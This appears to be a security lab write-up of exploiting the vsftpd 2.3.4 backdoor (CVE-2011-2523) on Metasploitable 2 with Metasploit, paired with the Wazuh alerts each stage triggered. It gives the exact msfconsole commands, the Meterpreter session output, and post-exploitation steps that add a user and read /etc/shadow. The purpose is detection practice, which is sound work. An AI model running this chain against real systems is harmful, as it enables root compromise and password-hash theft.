

# Attack: Metasploit vsftpd 2.3.4 Backdoor Exploit

## Overview
A known backdoor vulnerability in vsftpd 2.3.4 was exploited using Metasploit Framework on Kali Linux, gaining a Meterpreter session with root access on Metasploitable 2. Post-exploitation activity including user creation and file system access was performed and detected by Wazuh.

---

## Attack Details

| Field | Value |
|---|---|
| Attacker | Kali Linux (10.1.1.8) |
| Target | Metasploitable 2 (10.1.1.5) |
| Tool | Metasploit Framework |
| CVE | CVE-2011-2523 |
| Vulnerability | Backdoor planted in vsftpd 2.3.4 source code |
| Access Gained | Root shell via Meterpreter session |
| MITRE ATT&CK Tactic | Initial Access, Privilege Escalation, Persistence |
| MITRE ATT&CK Technique | T1190 — Exploit Public-Facing Application |

---

## Commands Used

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.1.1.5
set LHOST 10.1.1.8
run
```

**Result:**
```
[+] 10.1.1.5:21 - Backdoor service has been spawned, handling...
[*] Meterpreter session 1 opened (10.1.1.8:4444 -> 10.1.1.5:40369)
```

---

## Post-Exploitation Commands

```bash
# Get user context
getuid
sysinfo

# Drop into shell
shell

# Create a new user (loud — detected by Wazuh)
adduser hacker123

# Access sensitive files
cat /etc/passwd
cat /etc/shadow

# Create files in sensitive directories
touch /tmp/hacked_by_kali
echo "test" > /root/test
```

---

## Wazuh Detections

| Rule ID | Level | Description |
|---|---|---|
| 11401 | 3 | vsftpd: FTP session opened |
| 533 | 7 | Listened ports status changed (new port opened) |
| 510 | 7 | Host-based anomaly detection event |
| 5501 | 3 | PAM: Login session opened |
| 5902 | 8 | New user added to the system |
| 5901 | 8 | New group added to the system |
| 5904 | 8 | Information from the user was changed |
| 5555 | 3 | PAM: User changed password |

---

## Screenshot



---

## How the Backdoor Works

The vsftpd 2.3.4 backdoor was introduced via a malicious code commit to the project's source code in 2011. When a username containing the string `:)` is sent to the FTP service on port 21, the backdoor opens a shell on port 6200. Metasploit automates this process and connects to the spawned shell.

---

## Key Takeaway

This exploit demonstrates a complete attack chain from initial access through post-exploitation. Wazuh detected multiple stages of the attack including the FTP session, the new port opening, and the post-exploitation user creation — all mapped to MITRE ATT&CK tactics automatically.
